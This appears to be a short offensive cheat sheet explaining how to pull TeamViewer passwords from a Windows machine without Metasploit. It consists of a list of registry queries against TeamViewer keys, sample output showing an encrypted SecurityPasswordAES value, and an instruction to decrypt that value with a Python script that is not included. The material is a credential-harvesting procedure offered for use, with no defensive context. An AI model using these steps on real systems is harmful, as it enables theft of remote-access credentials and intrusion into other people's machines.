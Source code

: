 
# Get Passwords from Teamviewer windows (No Metasploit) 
- without metasploit

## Query all this 


```cmd
REG QUERY HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v Version
REG QUERY HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version8 /v Version
REG QUERY HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version9 /v Version
REG QUERY HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version10 /v Version
REG QUERY HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version11 /v Version
REG QUERY HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version12 /v Version
REG QUERY HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version13 /v Version
REG QUERY HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version14 /v Version
REG QUERY HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version15 /v Version
REG QUERY HKLM\SOFTWARE\WOW6432Node\TeamViewer /v Version
REG QUERY HKLM\SOFTWARE\TeamViewer\Temp /v SecurityPasswordExported
REG QUERY HKLM\SOFTWARE\TeamViewer /v Version
```


- take the ouput and change it in python script

- example

```cmd
REG QUERY HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v Version
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7
    SecurityPasswordAES    REG_BINARY    FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B
```

- take `FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B` and change in python script